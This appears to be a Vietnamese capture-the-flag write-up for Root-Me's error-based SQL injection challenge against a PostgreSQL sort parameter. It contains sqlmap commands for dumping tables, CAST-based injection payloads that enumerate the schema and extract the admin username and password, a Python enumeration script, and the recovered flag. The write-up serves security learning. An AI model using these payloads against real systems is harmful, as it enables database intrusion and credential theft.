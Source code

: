 # SQL-Error

**Point: 40**

**Exploiting SQL error**

**Statement: Retrieve administrator’s password.**

**Related ressources:**

[Khai thác Error based SQL injection](https://whitehat.vn/threads/sql-injection-khai-thac-error-based-sql-injection.5664/)

[Error Based Injection](https://sqlwiki.netspi.com/injectionTypes/errorBased/#postgresql)

[SQL Payload List](https://github.com/payloadbox/sql-injection-payload-list)

[Information schema](https://www.postgresql.org/docs/9.1/information-schema.html#:~:text=The%20information%20schema%20consists%20of,defined%20in%20the%20current%20database.&text=Some%20other%20views%20have%20similar,%2C%20constraint_column_usage%2C%20constraint_table_usage%2C%20table_constraints)

# Overview:

![image](https://user-images.githubusercontent.com/115911041/234256771-e502129c-1539-482d-b6e4-db8d0932b92a.png)

Form của challenge. Lần này challenge cung cấp cho ta 2 mục `Authentication` và `Contents`. Ban đầu thấy mục `Authentication` có chức năng Login, mình đã thử fuzz nhưng kết quả cho ra là `login failed`. Mình chuyển sang mục `Contents`

![image](https://user-images.githubusercontent.com/115911041/234257979-f60dad57-c246-40dc-9e5a-94aa89169ae0.png)

Nhận thấy URL có thay đổi. Thấy xuất hiện `order` và `ASC`, nghĩa là ở đây đang sử dụng lệnh `order by` và `ASC` là sắp sếp theo thứ tự tăng dần. Mình sẽ thử fuzz 

![image](https://user-images.githubusercontent.com/115911041/234265663-6536c738-9b3c-4d26-af47-322c912aad32.png)

Ban đầu là thêm dấu nháy `'` thì có lỗi báo giống như dự đoán là  đang sử dụng `order by` theo cột page và `ERROR: syntax error at or near "''"` nghĩa là database đang chạy là PostgreSQL.

Vậy đối với challenge này ta dùng Error-Based Blind SQL Injection. Phương thức này là cơ bản là một phương thức mà câu truy vấn của mình sẽ khiến server trả về thông báo lỗi, từ thông báo lỗi đó có thể chứa nội dung truy vấn hoặc các thông tin của cơ sở dữ liệu để chúng ta có thể khai thác xa hơn.

Đối với PostgreSQL thì chỉ có 1 lỗi ta có thể khai thác SQL injection - `đổi kiểu dữ liệu từ dạng chuỗi sang dạng số`- `INT`. Ta có 2 hàm sử dụng là `Cast()` và `Convert`
đối với PostgreSQL thì ta sử dụng `Cast()`

Một cách khác nữa là ta sử dụng SQL map

# Solution:

# Cách 1:

Sử dụng câu lệnh sau

`python sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" --dbs` 

![image](https://user-images.githubusercontent.com/115911041/234262375-2723de88-19fb-49fc-a8b6-a86762c871dd.png)

Kết quả trả về cho ta thấy bài này xuất hiện 2 cách khai thác sqli bao gồm khai khác blind và error. Có 3 database trả về, tuy nhiên ta chỉ cần chú ý đến database public là được. Thực hiện lấy các tables trên database này

`python sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" -D public --tables`

`-D public` là lấy kết quả trong `database public` còn `--tables` sử dụng để lấy tên các bảng.

![image](https://user-images.githubusercontent.com/115911041/234263135-d1a7ceb6-2218-4a4e-95de-126a678f2f07.png)


Kết quả cho ra table là  `m3mbr35t4bl3`. Thực hiện lấy data trong table

`python sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" -D public -T m3mbr35t4bl3 --dump`

`-T` là bảng cần lấy data, `--dump` lầy toàn bộ dữ liệu.

![image](https://user-images.githubusercontent.com/115911041/234263711-6ac5cf8d-5db7-4525-a3ed-1784cb72e91b.png)

Kết quả cho ra 1 hàng dữ liệu của admin `Flag: 1a2BdKT5DIx3qxQN3UaC`

# Cách 2:

Ta nhớ lại là với mỗi câu truy vấn lỗi thì ta đều sẽ nhận được thông báo lỗi từ server. Và trong tài liệu mình đọc thì có một cách để khai thác lỗi này đó và dựa vào những câu lệnh ép kiểu.

Ép kiểu trong sql thì cũng giống như ép kiểu trong lập trình vậy. Nó sẽ chuyển kiểu dữ liệu của một biến hay một giá trị từ kiểu này sang kiểu khác. Nhưng mà hai kiểu này phải tương đồng với nhau. Ví dụ như từ int sang float , float sang int, … chứ không thể chuyển từ string mà chuyển qua int hay float được.

Những payload hay tên của table mình có tham khảo ở mục số (2) và (3) mà mình đã cung cấp ở `related resources`.

Bây giờ ta sẽ chèn payload như sau

`,cast(chr(126)||(select+table_name+from+information_schema.tables+limit+1,1)||chr(126)+as+numeric)--`

![image](https://user-images.githubusercontent.com/115911041/234294290-692d4acd-8d04-40dd-a01e-c6931c26ef59.png)

Nó gợi ý mình sài LIMIT kèm với OFFSET mới được.Mình sẽ thử `limit 1 offset 0`

`,cast(chr(126)||((select+table_name+from information_schema.tables+limit+1+offset+0)||chr(126))+as+numeric)--`

![image](https://user-images.githubusercontent.com/115911041/234301011-642de513-135b-4063-9aba-255799657659.png)

Bây giờ ta sẽ khai thác tên cột bằng cách chèn payload

`,cast(chr(126)||((select+column_name+from+information_schema.columns+limit+1+offset+0)||chr(126))+as+numeric)--`

![image](https://user-images.githubusercontent.com/115911041/234286649-cc9bba23-05fa-4f0c-a07e-dbc78ecb4760.png)

Mình để offset là 0 thì có result là `id`. Tiếp theo dùng Burp Intruder để cho off set chạy

![image](https://user-images.githubusercontent.com/115911041/234287538-dceda6c1-2290-4657-a653-f00c8e725251.png)

![image](https://user-images.githubusercontent.com/115911041/234288018-5cb4fd01-7a5e-4193-9bd6-8b915a791d4f.png)

May là offset ở vị trí 1 và 2 `us3rn4m3_c0l` và `p455w0rd_c0l`.Bây giờ mình sẽ khai thác dữ liệu của 2 cột

`,cast(chr(126)||(select us3rn4m3_c0l from m3mbr35t4bl3 limit 1 offset 0) as numeric)–-`

`,cast(chr(126)||(select p455w0rd_c0l from m3mbr35t4bl3 limit 1 offset 0) as numeric)--`

![image](https://user-images.githubusercontent.com/115911041/234288968-48b0f50d-5b60-43f4-a1cd-076c9315b625.png)

*Bonus:

Khi mà các bạn tìm được `table_name` á, thay vì ta sẽ chạy offset để tìm `column_name` bằng burp intruder ta có thể coding một chút 

```
import requests
import sys

URL='http://challenge01.root-me.org/web-serveur/ch34/'
for i in range(0, 1001):
    query = 'ASC, (CAST((select column_name from information_schema.columns limit 1 offset ' + str(i) + ') as int))--'
    params = {'action': 'contents', 'order': query}
    http = requests.get(url= URL, params =params)
    content = http.content.decode("utf-8")
    print(content[400:])
```    

OUTPUT:
![image](https://user-images.githubusercontent.com/115911041/234318522-d10ca3c5-04e4-414c-986b-548e6b8e83c8.png)

Tới chỗ này thì làm bth thôi. Màu màu chút í mà :))))))
